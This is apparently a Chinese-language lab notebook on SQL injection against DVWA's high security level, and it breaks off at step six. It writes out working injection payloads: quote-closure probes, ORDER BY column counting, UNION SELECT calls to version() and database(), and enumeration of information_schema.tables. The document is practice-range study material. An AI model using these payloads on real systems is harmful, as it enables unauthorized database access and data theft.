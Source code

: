 # 第一步寻找交互页面

![20240914_204328](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\20240914_204328.png)



# 第二步：漏出存在探测

## 1、基于报错方式

![局部截取_20240914_205320](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\20240914_205320.png)

## 2、基于布尔进行测试

### 数字类型探测(能执行，没报错)

```
1and1=1
1and1=2
```

![image-20240914205100022](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240914205100022.png)



### 字符类型探测（报错，说明是''闭合）

```
'
"
```

![局部截取_20240914_205320](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\20240914_205320.png)

![20240914_213029](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\20240914_213029.png)

3、基于联合查询的测试

```
```



# 第三步：后台语句猜测：

```
由于没有数据库的报错信息。
我们无法确定闭合的方式：
可能性:
select * from table where id = ;
select * from table where id ='' ;
select * from table where id =" " ;
```



# 第四步 猜测显示位：

## 方法1： order by 排序方法

#### 猜测数字类型

```
1' order by 1#
```

![20240914_213630](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\20240914_213630.png)

![局部截取_20240914_214216](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_214216.png)

#### 猜测字符类型（确定闭合类型与最大显示位）

```
1' order by 1 #(回响发生变化，说明闭合类型)
1" order by 1 #（回响没变化，不是这个闭合类型）

在不断尝试变换
	1' order by 2 #
	1' order by 3 #
之间，发生回响变化。
说明最大显示位为第二列

```



![局部截取_20240914_213955](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_213955.png)

![局部截取_20240914_214517](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_214517.png)

![局部截取_20240914_214712](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_214712.png)



### 方式2： union 联合查询方式：

#### 数值类型猜测

```
1 union select 1 #

1 union select 1,2,3,4,5,6,7,8,9 #

都没有变化，说明，不是数值类型
```

![image-20240914215412819](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240914215412819.png)

![局部截取_20240914_215806](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_215806.png)



#### 字符串类型猜测

```
单引号字符猜测
1' union select 1 #
1' union select 1,2 #
不断的添加显示字段数，我们看到一个变化的临界点，就是1与1，2与1,2,3这个区间
说明1,2 是最大显示位。
```

![局部截取_20240914_220006](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_220006.png)



![局部截取_20240914_220330](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_220330.png)



# 第五步：利用显示位，输出数据库函数

```sql
按照国际惯例：先看版本
1' union select 1, version() #
查看当前数据库名称
1' union select 1, database() #
```

![局部截取_20240914_220946](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_220946.png)

![局部截取_20240914_221141](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_221141.png)



```sql
访问information_schema源库
获取全部的数据库名称 与数据表名称
报错：
1' union select table_schema, table_name from information_schema.tables #

指定字符集
1' union select (table_name collate utf8_unicode_ci),(table_schema collate utf8_unicode_ci) from information_schema.tables %23
```

![局部截取_20240914_222455](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\high\imgs\局部截取_20240914_222455.png)

# 第六步：获取当前数据库表

